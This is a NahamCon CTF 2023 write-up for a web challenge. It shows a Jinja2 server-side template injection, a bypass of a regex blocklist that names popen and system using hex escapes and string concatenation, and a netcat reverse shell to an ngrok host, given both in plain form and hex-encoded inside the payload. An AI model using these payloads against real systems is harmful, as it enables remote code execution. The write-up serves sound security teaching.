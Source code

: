 ```yaml
---
name: Obligatory (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Obligatory (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Obligatory

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=1075 "Nahamcon CTF 2023: Obligatory (Web)")

## Description

> Every Capture the Flag competition has to have an obligatory to-do list application, right???

## Solution

Register account and try some payloads (XSS, SSTI, SQLi) but the notes all render as text without issues.

However, when a task is created there's a GET parameter `success`, that's set to `Task created`.

When changing the value to an [SSTI polyglot](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), `${{<%[%'"}}%\`, we get an error message.

```python
HACKER DETECTED!!!!
The folowing are not allowed: [ {{\s*config\s*}},.*class.*,.*mro.*,.*import.*,.*builtins.*,.*popen.*,.*system.*,.*eval.*,.*exec.*,.*\..*,.*\[.*,.*\].*,.*\_\_.* ]
```

Bypasses: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#accessing-subclasses-with-bypasses

More bypasses here: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

It's blocked due to `builtin` and `popen`, so let's go through it manually.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')}}
```

We can use hex or concatenation to bypass the filter.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('id')|attr('read')()}}
```

We don't get output.. let's [hex encode a reverse shell](<https://gchq.github.io/CyberChef/#recipe=To_Hex('%5C%5Cx',0)&input=cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgOC50Y3Aubmdyb2suaW8gMTU3MjMgPi90bXAvZg>).

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 8.tcp.ngrok.io 15723 >/tmp/f
```

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x38\x2e\x74\x63\x70\x2e\x6e\x67\x72\x6f\x6b\x2e\x69\x6f\x20\x31\x35\x37\x32\x33\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```

Make the shell interactive.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo; fg;
export TERM=linux;clear;
```

Check the database folder.

```bash
cd DB
strings *
```

We find the flag!

Flag: `flag{7b5b91c60796488148ddf3b227735979}`
